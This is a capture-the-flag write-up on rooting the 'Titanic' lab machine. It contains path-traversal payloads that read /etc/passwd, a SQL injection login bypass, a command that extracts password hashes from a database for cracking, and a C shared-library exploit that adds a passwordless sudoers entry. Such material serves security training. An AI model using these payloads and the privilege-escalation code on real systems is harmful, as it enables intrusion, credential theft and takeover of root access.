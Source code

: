 # 🚢Titanic

## 🧠Summary 
> Using basics of web enumeration to find the vulnerable subdomain which leads access to the
> machine using SSH(secure shell). In the machine, found a vulnerable file identify_image.sh, so introduced a
> C program for gaining root access.
  ```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```
## 🔍Step 1 (Nmap scan)
- Did a nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v {ip address}
  ```
- Note: Using the sV flag is for version detection which is always useful because we can search in the web for past vulnerablity of that version
- The result of the nmap scan is in this link 👉 [nmap_scan_result](./analysed_data/nmap_scan.txt)
## 💡Step 2 (Web analysis)
- Before starting analysis, updated the etc/hosts
  ```bash
  sudo echo "{ip address}    titanic.htb" > etc/hosts
  ```
- Registred in the site to see output and found out that you can directly download things from the site
## 💻Step 3 (Enumeration)
- Used a custom made python script and wordlist that aling mostly to tourism and booking site
- custom python script 👉 [enumeration.py](./custom_tool/enumeration.py)
- Found out that 2 addtional webpages are present, that is the "book" and "download"
- Did some manual enumeration using the earlier data and found out that /download?ticket= is an endpoint
- For further analysis used burp suite and dirsearch and conformed that there was subdomain called dev.titanic.htb (☠️note: unfortuanately couldn't capture the records of burp suite)
- While doing the analysis using burp suite in the newly found endpoint used some payloads like ../../../etc/passwd and found a file
- the file received from the payload 👉 [etc/passwd.txt](./analysed_data/ticket.txt)
- Notice that there is a user called as developer
- To get the user flag we use a payload ../../../home/developer/user.txt to obtain the flag
- In the dev.titanic.htb subdomian we found the application used is gitea to upload 2 git repository
## 📖Step 4 (Info gathering)
- I entered gitea using the username developer we found and then tried to login but no password
    - tried:
    >  1) guess some random password (failed).
    >  2) Did some simple sql injection using the payload developer'# (success)
- Then analysed the git hub repose and found the path way to the database
- Then downloaded the database using the endpoint download?ticket=
- The obtained database 👉 [database](./analysed_data/developer_db.db)
## 🔐Step 5 (Brute-forcing)
- Using the bash command
  ```bash
  sqlite3 {name_of_database} "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee hashes.txt
  ```
- The above shown output will be saved to a hashes.txt file 👉 [hashes.txt](./analysed_data/hashes.txt)
- As we analyzed the hash, found out that this is a pkbdf2 hash with salt and has undergone 50000 iteration, so i wrote a custom python program and used rockyou.txt
- custom python program 👉 [hash_decode.py](./custom_tool/hash_decode.py)
## 📎Step 6 (Foothold)
- Using the username "developer" and the cracked password we login to the machine using SSH
  ```bash
  ssh developer@titanic.htb
  ```
- After that searched through the files to find identify_images.sh which is using imageMagick to identify picture and write it in log files quickly
- So in the directory /opt/app/static/assets/images/ I introduced a new file exploit.c and wrote the above c code
- I compiled and ran the code as
  ```bash
  gcc -fPIC -shared -o ./libxcb.so.1 exploit.c -nostartfiles
  ```
- Then executed sudo su and finally I became root
- I got the root flag in the root directory using
  ```bash
  cat root/root.txt
  ```
  
